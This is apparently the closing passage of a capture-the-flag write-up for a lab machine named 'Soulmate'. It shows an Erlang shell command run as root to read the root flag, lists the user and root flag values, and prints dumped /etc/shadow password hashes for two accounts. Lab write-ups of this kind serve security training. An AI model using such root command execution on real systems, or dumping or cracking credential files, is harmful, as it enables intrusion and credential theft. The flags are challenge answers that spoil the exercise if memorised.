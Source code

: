 Finally, I retrieved the root flag using the same command execution method:
```bash 
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```
![](<./attachments/Soulmate-16.png>)

---
# Trophies

## User Flag
```txt
605f63632cd48269255d7b348c11c6da
```
## Root Flag
```txt
83baa78fe2aab1e0c2dff7e955a62299
```
## **/etc/shadow**

```bash
root:$y$j9T$F0ac/VWnpQL9EP1.SyIKb.$YO.C6lGpumKomf/Ql.1D.YFt7kopiSCTdfDyk4FLdY5:20319:0:99999:7:::
ben:$y$j9T$5nWQGACiAivm4O0RaH71X.$6Yn5wee.ahPGiTaVP2aFVeDt2vn5JLH1/f1tNknhyQ7:20319:0:99999:7:::
```

---
# Proof